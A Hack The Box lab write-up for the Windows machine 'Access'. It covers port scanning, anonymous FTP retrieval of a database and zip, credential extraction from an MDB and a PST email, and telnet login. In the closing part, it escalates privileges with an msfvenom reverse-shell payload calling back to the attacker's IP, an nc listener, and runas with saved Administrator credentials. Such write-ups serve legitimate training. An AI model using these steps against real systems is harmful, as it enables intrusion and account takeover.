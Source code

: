 ```yaml
---
date: 2025-04-18
categories: [Windows, Easy]
---
```


![Access](https://labs.hackthebox.com/storage/avatars/adef7ad3d015a1fbc5235d5a201ca7d1.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [egre55](https://app.hackthebox.com/users/1190)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.98 -oG scan
	/opt/extractports scan
	nmap -p21,23,80 -Pn -sCV 10.10.10.98 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/1741ee37-4ac4-4cc0-a1f4-8600f1f93f5b)

- With the initial recognition I see that port 21 allows logging in with anonymous credentials. 
- I find 2 directories and each of them contains a file. I switch to binary mode and download the files.

	![image](https://github.com/user-attachments/assets/3ee4dc9a-1399-4e41-9c4d-5cd4c216c0c8)
	
	```python
	binary
	get Backups/backup.mdb
	get Engineer/Access Control.zip
	```

- I start by viewing the database schema, query the tables and decide to view the contents of the auth_user table. Within it I find 3 entries with potential credentials.

	```python
	mdb-tables backup.mdb
	mdb-schema backup.mdb
	mdb-sql backup.mdb
		select id,username,password from auth_user;
	```

	![image](https://github.com/user-attachments/assets/49661016-e08f-4360-acbb-ef3bdc0aafa2)

- When I try to use the `engineer` credential via telnet on port 23 I get a different error message than if I use other credentials.

	![image](https://github.com/user-attachments/assets/e949094f-9111-4215-9556-9b39f4194083)

- When unzipping the zip file it asks me for a password. I try with the credentials found and I see that the user `engineer` is correct and I manage to unzip.

	```python
	7z x Access Control.zip
	```

- An `Access Control.pst` file is decompressed. A PST file, or personal storage table file, is a file format used to store e-mail messages, contacts and other items. 
- To be able to read the content of the file I use readpst and it generates a file that I can consult its content.

	![image](https://github.com/user-attachments/assets/6a79af0f-4de4-4a10-8c22-7697cd2cf4ff)

- When reading the email I find some credentials for the security user. I use these credentials to connect via telnet on port 23 and get access to the system and read the first flag.

	![image](https://github.com/user-attachments/assets/9bfa2d01-e380-4d09-9f51-7eefc30aa22f)

	```python
	telnet 10.10.10.98 23
	```

	![image](https://github.com/user-attachments/assets/41d5c083-91f3-4bff-a010-bf4537c649a5)

- To increase my privileges I start listing files in the common directories and find a link inside the public desktop.
- When consulting its content I see that the terminal has stored the Administrator user credentials.
	
	![image](https://github.com/user-attachments/assets/b6085e4f-dd6e-448b-99f4-3bf2cd1432c6)

	![image](https://github.com/user-attachments/assets/42f9594b-6ab1-4c34-9dea-2914949e18da)

- I share an smb service to transfer files between my machine and the victim's machine.

	```python
	sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
	net use n: \\10.10.14.10\share /user:test test
	```

- I generate a binary to create a reverse shell. I run the binary using the stored credentials and I get a shell as Administrator and I can read the second system flag.
	
	```python
	msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f exe > pepe.exe
	
	nc -nlvp 1234
	
	runas /user:ACCESS\Administrator /savecred "C:\temp\pepe.exe"
	```
	
	![image](https://github.com/user-attachments/assets/dbb7f71f-7863-41d0-ab72-b4450ef67790)
